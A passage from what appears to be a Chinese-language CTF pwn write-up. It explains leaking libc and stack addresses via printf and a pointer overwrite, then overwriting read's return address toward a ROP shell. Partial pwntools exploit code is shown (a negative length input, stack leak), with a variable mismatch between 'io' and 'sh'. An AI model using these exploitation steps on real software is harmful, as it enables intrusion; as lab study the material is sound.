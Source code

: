 (这里能打印的原因是 printf 的传参关系，这里能看到，name 和 message 传参所用指令不同：![](https://bbs.pediy.com/upload/attach/202108/904686_Y75S4Y9VHGHF4H8.jpg)

name 是 mov 指令，是直接将 ebp+arg_0 上的内容传给 eax

message 是 lea 指令，是将 ebp+var_2c 这个栈地址传给 edx

那么显而易见，ebp+arg_0 上保存的肯定是一个栈地址，这个栈地址上的内容才是 name 的真实内容。所以如果我们覆盖 ebp+arg_0 上的内容为 got 表，那么再打印就是取 got 表中的内容打印，也是函数真实地址。)

从而泄露出 libc 基地址。之后再执行栈溢出，覆盖返回地址为 ROP 链来 getshell。但是这里有一个问题，由于程序自定了某些汇编函数，并且在调试过程中发现用程序的 call 来调用的函数，返回地址不再是原来 call 函数的下一句代码，而是一个 restore_eip 函数。因为在 leave 和 ret 指令执行前，执行了 call ret，修改了某些东西，导致原本 ebp 下面不再是函数的返回地址了。并且由于是传指针，就算栈溢出，溢出的也只能是 message 函数栈，那有 canary 的情况下，溢出也没有什么意义。但是其它函数返回地址则是直接跳转到 ret_stub 函数，而这个 ret_stub 函数是保存在栈上的。

4. 这里就想到 printf 函数，由于 name 会被打印出来，并且调试可以发现，将 name 总共 16 字节顶满后会连上一个 17F79D79，之后是两个 retn 的地址，再之后就是一个栈地址，这几个数据都没有 \ x00 结束字符，所以可以被 printf 连在一起打印出来：

![](https://bbs.pediy.com/upload/attach/202108/904686_9ERAFDPNYZ88B7Y.jpg)

那么可以考虑将 name 顶满后连上 ebp 泄露出栈地址，之后找到保存 read 返回地址的栈地址，将写入 name 的栈地址更改为保存 read 返回地址的栈地址。之后我们再往 name 中写东西，就相当于覆盖 read 函数的返回地址。再经过反复调试，发现 read 函数返回地址取用的地方刚好是 FFF25c3c-0x100，而且每次都是那个地址，那么就可以覆盖了。(这里利用输入 message 连上 ebp 也可以泄露出 message 的 ebp 上保存的内容，也是相同的栈地址，调试出来的)

5. 现在就尝试编写 exp:

(1) 首先三个函数：

```
#注释头
 
def setName(name):
    io.sendafter('Input name :',name)
 
def setMessage(message):
    io.sendlineafter('Message length :','-1')
    io.sendafter('Input message :',message)
 
def changeName(c):
    io.sendlineafter('Change name?',c)

```

(2) 通过填满 name，泄露一个栈地址：

```
#注释头
 
setName('A'*0x10)
setMessage('BBBBBBBBBB')
sh.recvuntil('<')
sh.recv(0x1C)
stack_addr = u32(sh.recv(4))
changeName('n')
log.info("stack_addr:%x"%stack_addr)

```
